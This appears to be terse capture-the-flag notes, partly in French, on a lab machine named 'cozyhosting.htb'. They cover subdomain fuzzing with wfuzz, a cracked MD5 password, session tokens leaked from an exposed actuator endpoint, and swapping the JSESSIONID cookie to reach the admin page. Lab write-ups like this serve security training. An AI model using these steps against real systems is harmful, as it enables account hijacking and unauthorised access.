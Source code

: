 # ip
10.10.11.230

# subdomains enum
wfuzz --hh 178 -c -w ../../../SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "HOST:FUZZ.cozyhosting.htb" http://cozyhosting.htb

# md5 decode
emerald

# http://cozyhosting.htb/actuator/sessions
{
  "7D2192D811A669B98DD57AF2FA4B7757": "kanderson",
  "1B1254850D46E07AC5900D3E7BA79FBD": "UNAUTHORIZED"
}

# modifier JSESSIONID puis go sur la page login admin
http://cozyhosting.htb/admin